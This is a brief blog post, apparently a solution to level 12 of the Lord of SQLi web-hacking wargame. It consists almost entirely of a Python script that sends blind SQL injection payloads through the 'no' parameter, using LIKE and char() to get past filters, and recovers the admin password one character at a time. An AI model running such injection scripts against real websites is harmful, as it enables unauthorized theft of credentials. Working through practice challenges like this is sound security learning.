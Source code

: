 ```yaml
---
title: "LOS 12번"
date: 2020-08-07
tag: [pwnable]
layout: post
part: WEB
---
```


{% highlight python %}
import requests

url = "https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php"

headers={"Cookie": "PHPSESSID=5hs4v4mu95ovdpmiij918hfdrq"}
st = ""
for i in range(8):
  for j in range(48,127):
    if chr(j)=='%' or chr(j)=='_': continue
    params = {"no":"1 or length(pw) like 8 and pw like char({},37)".format(st+str(j))}
    r = requests.get(url = url, params = params, headers = headers)
    if 'Hello admin' in r.text: 
      print(chr(j))
      st+=str(j)+','
      break
{% endhighlight %}
